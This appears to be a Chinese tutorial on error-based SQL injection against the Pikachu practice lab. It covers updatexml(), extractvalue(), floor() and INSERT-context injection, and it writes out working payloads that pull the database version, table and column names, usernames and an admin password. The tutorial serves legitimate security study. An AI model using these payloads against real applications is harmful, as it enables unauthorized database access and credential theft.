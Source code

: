 # 报错查询

## 一、原理

sql使用中，一些函数在不符合其使用时会发生报错，如select/insect/update/delete，虽然会报错，但是会先执行后报错，可以据此查看一些信息。

### 二、应用

使用报错函数首先需要程序可以进行报错。

#### 常用报错函数

##### 1.updatexml()

对xml文件进行查询修改的XPATH函数

UPDATEXML (XML_document, XPath_string, new_value);

第一个参数：XML_document是String格式，为[XML](https://so.csdn.net/so/search?q=XML&spm=1001.2101.3001.7020)文档对象的名称

第二个参数：XPath_string ([Xpath](https://so.csdn.net/so/search?q=Xpath&spm=1001.2101.3001.7020)格式的字符串)

第三个参数：new_value，String格式，替换查找到的符合条件的数据

还是使用字符型注入进行版本查询试验

```
payload:kobe' and updatexml(1,payload《例如version()》,0)#
```

**其中1不存在,但报错信息不全**

**01使用concat()函数进行补全,**

```
payload:kobe' and updatexml(1,concat(0x7e,version()),0)#
```

0x7e对应~

获取表名

```
payload:kobe' and updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema= 'pikachu')),0)#
```

发现结果提示一行无法显示

**02使用limit函数一次显示一行**

```
payload:kobe' and updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema= 'pikachu' limit 0,1)),0)#
从0开始取一行，将第一个表打印一行
limit 1,1 /limit 2,1
```

通过表名查询字段/列

```
payload:kobe' and updatexml(1,concat(0x7e,(select column_name from information_schema.columns where table_name= 'users' limit 0,1)),0)#
```

通过字段(列)查询数据

```
payload:kobe' and updatexml(1,concat(0x7e,(select username from users limit 0,1)),0)#
```

```
payload:kobe' and updatexml(1,concat(0x7e,(select password from users where username='admin' limit 0,1)),0)#
```

#### 2.extractvalue()

对XML文件进行查询的XPATH函数

语法：extractvalue(目标xml文档，xml路径)

第二个参数 xml中的位置是可操作的地方，xml文档中查找字符位置是用 /xxx/xxx/xxx/…这种格式，第二个参数可以添加payload

```
kobe' and extractvalue(1,payload)#
```

```
payload:kobe' and extractvalue(1,concat(0x7e,version()))#
```

具体使用方法与updatexml类似

##### 3.floor()

用来取整的函数

```
payload：kobe' and (select 2 from (select count(*),concat(payload,floor(rand(0)*2))x from information_schema.tables group by x)a)#


payload:kobe' and (select 2 from (select count(*),concat(version(),floor(rand(0)*2))x from information_schema.tables group by x)a)#
```

#### 数据库操作函数

##### 4.insect()插入函数

在数据库新增数据时，insect一般使用or进行闭合

```
sql语句:insect into member(usernmae,pw,sex,phonenum,email,address) values('1 'or payload or'','2','3','4','5','6')
```

原理

```
insect into member(usernmae,pw,sex,phonenum,email,address) values('1' or updatexml(1,concat(0x7e,database()),0) or '','2','3','4','5','6')
```

```
payload:1' or updatexml(1,concat(0x7e,database()),0) or '
```

##### 5.update()上传函数

在修改数据时使用，一般和inset类似

##### 6.delete（）删除函数

需要改包，并且进行url编码
